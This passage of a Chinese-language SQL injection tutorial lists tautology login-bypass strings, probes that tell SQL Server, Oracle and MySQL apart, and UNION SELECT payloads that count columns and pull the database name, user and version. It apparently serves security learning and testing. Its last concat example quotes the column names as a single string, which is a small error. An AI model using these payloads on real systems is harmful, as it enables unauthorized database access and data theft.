 下面是一些**万能密码**，如果下述注入成功，也可以说明存在注入点：

```
id=1' or 'a'='a			# 最后面直接与sql语句的分号闭合，就不需要注释符，以此判断为字符型注入
id=1' or 1=1 #			# 井号注释，可以判断为mysql数据库
id=1' or 1=1 -- -		# -- -或--+注释，MySQL或Mssql都可以
id=1' or 1=1;--			# ;--注释，可以判断为Mssql数据库
```



## 0x02 判断数据库类型

SQL Server、Oracle以及MySQL的字符串连接符各不相同，利用这一点不同可以用来识别各自的SQL注入漏洞。向Web服务器发送下面两个请求：

- 如果以下两个请求结果相同，则很可能存在SQL注入漏洞，且数据库为SQL Server。

```
id=jack
id=ja'+'ck
```

- 如果以下两个请求结果相同，则很可能存在SQL注入漏洞，且数据库为Oracle。

```
id=jack
id=ja'||'ck
```

- 如果以下两个请求结果相同，则很可能存在SQL注入漏洞，且数据库为MySQL。

```
id=jack
id=ja''ck
```



## 0x03 简单暴露

在注入点处插入以下payload测试

```
id=1' or 1=1 -- -
id=-1' union select 1  -- -
id=-1' union select 1, 2 -- -
id=-1' union select 1, 2, 3 -- -
id=-1' order by 3 -- -
...... 
```

注意：

- \' 号前用1或者其他的，也可以置空，视注入语句需要的情况而定，如果是需要前面为真，则需要id等于一个存在的值，如果是要假，则找一个不存在的值即可。

- 最后面的 “\-\- -” （注意中间有空格）是用来注释的，也可以用 “\-\-\+” 或 “\#” 。

上面这些是用来测试使用了多少个字段，知道了字段数之后可以进行的数据库信息查询。

```
id=-1' union select 1, database() -- -		# 输出当前数据库名
id=-1' union select 1, user() -- -		# 输出当前用户名
id=-1' union select 1, version() -- -		# 输出数据库版本信息
```
如果需要输出的字段比原来输出的少，可以用下面这句进行拼接输出，利用concat或group_concat函数进行拼接。
```
id=-1' union select username, concat("passwd, user_id, age") -- -
```
